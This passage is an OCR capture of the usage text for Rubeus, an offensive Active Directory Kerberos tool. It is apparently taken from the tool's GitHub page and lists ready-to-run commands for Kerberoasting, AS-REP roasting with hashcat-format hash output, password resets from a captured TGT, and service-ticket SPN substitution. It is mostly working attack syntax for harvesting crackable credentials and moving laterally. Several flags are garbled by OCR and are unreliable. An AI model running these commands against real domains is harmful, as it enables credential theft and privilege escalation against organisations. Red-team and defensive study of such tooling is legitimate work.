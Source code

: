  Perform Kerberoasting with an existing TGT:
 Rubeus.exe kerberoast /spn:"blah/blah" </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

 Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
 Rubeus.exe kerberoast /usetgtdeleg [/nowrap]

 Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
 Rubeus.exe kerberoast /rc4opsec [/nowrap]

 List statistics about found Kerberoastable accounts without actually sending ticket requests:
 Rubeus.exe kerberoast /stats [/nowrap]

 Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
 Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/nowrap]

 Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
 Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/nowrap]

 Perform AES Kerberoasting:
 Rubeus.exe kerberoast /aes [/nowrap]

 Perform AS-REP "roasting" for any users without preauth:
 Rubeus.exe asreproast [/user:USER] [/domainOMAIN] [/dcOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

 Perform AS-REP "roasting" for any users without preauth, outputting Hashcat format to a file:
 Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domainOMAIN] [/dcOMAIN_CONTROLLER] [/ou:"OU=,..."]

 Perform AS-REP "roasting" for any users without preauth using alternate credentials:
 Rubeus.exe asreproast /creduserOMAIN.FQDN\USER /credpasswordASSWORD [/user:USER] [/domainOMAIN] [/dcOMAIN_CONTROLLER] [/ou:"OU,..."] [/nowrap]


 Miscellaneous:

 Create a hidden program (unless /show is passed) with random /netonly credentials, displaying the PID and LUID:
 Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show]

 Reset a user's password from a supplied TGT (AoratoPw):
 Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /newASSWORD [/dcOMAIN_CONTROLLER]

 Calculate rc4_hmac, aes128_cts_hmac_sha1, aes256_cts_hmac_sha1, and des_cbc_md5 hashes:
 Rubeus.exe hash /password:X [/user:USER] [/domainOMAIN]

 Substitute an sname or SPN into an existing service ticket:
 Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:ldap [/ptt] [/luid] [/nowrap]
 Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:cifs/computer.domain.com [/ptt] [/luid] [/nowrap]

 Display the current user's LUID:
 Rubeus.exe currentluid

 The "/consoleoutfile\FILE.txt" argument redirects all console output to the file specified.

 The "/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function.
